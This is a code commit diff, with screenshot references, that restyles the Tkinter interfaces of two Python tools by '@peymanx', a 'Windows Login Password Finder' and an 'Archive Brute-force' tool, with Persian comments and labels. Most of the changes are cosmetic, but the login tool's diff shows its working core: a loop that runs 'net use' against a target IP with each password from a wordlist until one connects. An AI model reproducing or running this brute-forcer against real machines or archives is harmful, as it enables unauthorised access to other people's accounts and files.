

GUI Updated

Changed region(s): [[0.4203, 0.1221, 0.9306, 0.8855], [0.03, 0.2137, 0.3302, 0.855], [0.5103, 0.8244, 0.5403, 0.855]]

diff --git a/gui/login.py b/gui/login.py
@@ -7,39 +7,16 @@ from PIL import Image, ImageTk
 
 # تابع برای نمایش باکس
 def print_box(message):
-    columns = shutil.get_terminal_size().columns
-    box_width = columns - 4
-    print()
-    print(f'╔{"═" * box_width}╗')
-    print(f'║{" " * box_width}║')
-    print(f'║{message.center(box_width)}║')
-    print(f'║{" " * box_width}║')
-    print(f'╚{"═" * box_width}╝')
+    messagebox.showinfo("Info", message)
 
 # تابع برای امتحان کردن پسوردها
-def try_passwords():
-    ip_address = ip_entry.get()
-    username = username_entry.get()
-    password_file_path = password_entry.get()
-
-    if not ip_address or not username or not password_file_path:
-        messagebox.showerror("Error", "Please provide IP address, username, and password file path.")
-        return
-
-    # باز کردن فایل و خواندن پسوردها
-    with open(password_file_path, 'r') as file:
-        passwords = file.readlines()
-
-    # متغیر کمکی برای بررسی پیدا شدن پسورد
+def brute_force_attack(ip_address, username, passwords):
     password_found = False
-
-    # تنظیم نوار پیشرفت
     progress_bar['maximum'] = len(passwords)
 
-    # اجرای دستور برای هر پسورد تا زمانی که اتصال موفقیتآمیز باشد
     for i, password in enumerate(passwords):
         password = password.strip()  # حذف کاراکترهای اضافی مانند \n
-        status_label.config(text=' '*10 + f'{password}'+' '*10)
+        status_label.config(text=f'{" "*10}{password}{" "*10}')
         root.update_idletasks()
         command = f'net use \\\\{ip_address} /user:{username} {password} >nul 2>&1'
         result = os.system(command)
@@ -63,40 +40,48 @@ root = tk.Tk()
 root.title("Windows Login Password Finder by @peymanx")
 root.configure(bg='black')
 
+# تنظیمات برای وسطچین کردن محتوا
+root.grid_rowconfigure(0, weight=1)
+root.grid_columnconfigure(0, weight=1)
+
+# ایجاد فریم اصلی
+main_frame = tk.Frame(root, bg='black')
+main_frame.grid(row=0, column=0, sticky="nsew")
+
 # بارگذاری و نمایش بنر
 banner_image = Image.open("./images/login_banner.png")  # مسیر تصویر بنر
 banner_photo = ImageTk.PhotoImage(banner_image)
-banner_label = tk.Label(root, image=banner_photo, bg='black')
-banner_label.grid(row=0, column=0, columnspan=3)
+banner_label = tk.Label(main_frame, image=banner_photo, bg='black')
+banner_label.grid(row=0, column=0, columnspan=3, pady=10)
 
 # برچسب و ورودی برای آدرس IP
-tk.Label(root, text="IP Address:", bg='black', fg='white').grid(row=1, column=0, padx=10, pady=10)
-ip_entry = tk.Entry(root, width=50, bg='black', fg='white')
+tk.Label(main_frame, text="IP Address:", bg='black', fg='white').grid(row=1, column=0, padx=10, pady=10)
+ip_entry = tk.Entry(main_frame, width=50, bg='black', fg='white')
 ip_entry.grid(row=1, column=1, padx=10, pady=10)
 ip_entry.insert(0, "127.0.0.1")  # مقدار پیشفرض
 
 # برچسب و ورودی برای نام کاربری
-tk.Label(root, text="Username:", bg='black', fg='white').grid(row=2, column=0, padx=10, pady=10)
-username_entry = tk.Entry(root, width=50, bg='black', fg='white')
+tk.Label(main_frame, text="Username:", bg='black', fg='white').grid(row=2, column=0, padx=10, pady=10)
+username_entry = tk.Entry(main_frame, width=50, bg='black', fg='white')
 username_entry.grid(row=2, column=1, padx=10, pady=10)
-username_entry.insert(0, "ali")  # مقدار پیشفرض
+username_entry.insert(0, "alireza")  # مقدار پیشفرض
 
 # برچسب و ورودی برای مسیر فایل پسوردها
-tk.Label(root, text="Password File Path:", bg='black', fg='white').grid(row=3, column=0, padx=10, pady=10)
-password_entry = tk.Entry(root, width=50, bg='black', fg='white')
+tk.Label(main_frame, text="Password File Path:", bg='black', fg='white').grid(row=3, column=0, padx=10, pady=10)
+password_entry = tk.Entry(main_frame, width=50, bg='black', fg='white')
 password_entry.grid(row=3, column=1, padx=10, pady=10)
-password_entry.insert(0, "passwords.txt")  # مقدار پیشفرض
-tk.Button(root, text="Browse", command=lambda: password_entry.insert(0, filedialog.askopenfilename()), bg='black', fg='white').grid(row=3, column=2, padx=10, pady=10)
+password_entry.insert(0, "../passwords.txt")  # مقدار پیشفرض
+tk.Button(main_frame, text="Browse", command=lambda: password_entry.insert(0, filedialog.askopenfilename()), bg='white', fg='black').grid(row=3, column=2, padx=10, pady=10)
 
 # نوار پیشرفت
-progress_bar = Progressbar(root, orient='horizontal', length=400, mode='determinate')
+progress_bar = Progressbar(main_frame, orient='horizontal', length=400, mode='determinate')
 progress_bar.grid(row=4, column=0, columnspan=3, pady=10)
 
 # برچسب وضعیت
-status_label = tk.Label(root, text="", bg='black', fg='white')
+status_label = tk.Label(main_frame, text="", bg='black', fg='white')
 status_label.grid(row=5, column=0, columnspan=3)
 
 # دکمه برای شروع فرآیند پیدا کردن پسورد
-tk.Button(root, text="Find Password", command=try_passwords, bg='black', fg='white').grid(row=6, column=0, columnspan=3, pady=20)
+tk.Button(main_frame, text="    شروع حمله بروووت فورس 🔑", command=lambda: brute_force_attack(ip_entry.get(), username_entry.get(), open(password_entry.get()).readlines()), bg='gold', fg='black', font=("Helvetica", 12)).grid(row=6, column=0, columnspan=3, pady=20)
 
 root.mainloop()

diff --git a/gui/archive.py b/gui/archive.py
@@ -50,44 +50,44 @@ def start_bruteforce():
 # تابع برای انتخاب فایل فشرده
 def select_archive():
     global archive_path
-    archive_path = filedialog.askopenfilename(title="انتخاب فایل فشرده", filetypes=[("Archive Files", "*.zip *.7z *.rar")])
+    archive_path = filedialog.askopenfilename()
     archive_label.config(text=f"فایل فشرده انتخاب شده: {archive_path}")
 
 # تابع برای انتخاب فایل پسوردها
 def select_password_file():
     global password_file_path
-    password_file_path = filedialog.askopenfilename(title="انتخاب فایل پسورد", filetypes=[("Text Files", "*.txt")])
+    password_file_path = filedialog.askopenfilename()
     password_label.config(text=f"فایل پسورد انتخاب شده: {password_file_path}")
 
 # ایجاد رابط گرافیکی
 root = tk.Tk()
 root.title("Archive Brute-force by @peymanx")
-root.configure(bg="black")
+root.configure(bg="#550b9c")
 
 # ایجاد و تنظیم ویجتهای رابط گرافیکی
-image_label = tk.Label(root, bg="black")
+image_label = tk.Label(root, bg="#550b9c")
 image_label.pack(pady=10)
 
 # بارگذاری عکس
-image = tk.PhotoImage(file="./images/login_banner.png")
+image = tk.PhotoImage(file="./images/archive_banner.png")
 image_label.config(image=image)
 
 archive_button = tk.Button(root, text="مسیر فایل فشرده", command=select_archive, bg="white", fg="black", font=("Helvetica", 12))
 archive_button.pack(pady=10)
 
-archive_label = tk.Label(root, text="No file selected", bg="black", fg="white", font=("Helvetica", 10))
+archive_label = tk.Label(root, text="No file selected", bg="#550b9c", fg="white", font=("Helvetica", 10))
 archive_label.pack(pady=5)
 
 password_button = tk.Button(root, text="مسیر بانک پسوردها", command=select_password_file, bg="white", fg="black", font=("Helvetica", 12))
 password_button.pack(pady=10)
 
-password_label = tk.Label(root, text="No file selected", bg="black", fg="white", font=("Helvetica", 10))
+password_label = tk.Label(root, text="No file selected", bg="#550b9c", fg="white", font=("Helvetica", 10))
 password_label.pack(pady=5)
 
 log_text = scrolledtext.ScrolledText(root, width=80, height=10, bg="black", fg="white", font=("Helvetica", 10))
 log_text.pack(pady=20)
 
-start_button = tk.Button(root, text="Brute-force شروع حمله ", command=start_bruteforce, bg="white", fg="black", font=("Helvetica", 12))
+start_button = tk.Button(root, text="Brute-force شروع حمله  🔑 ", command=start_bruteforce, bg="#fcad0e", fg="black", font=("Helvetica", 12))
 start_button.pack(pady=10)
 
 # ایجاد و تنظیم ویجت progress bar
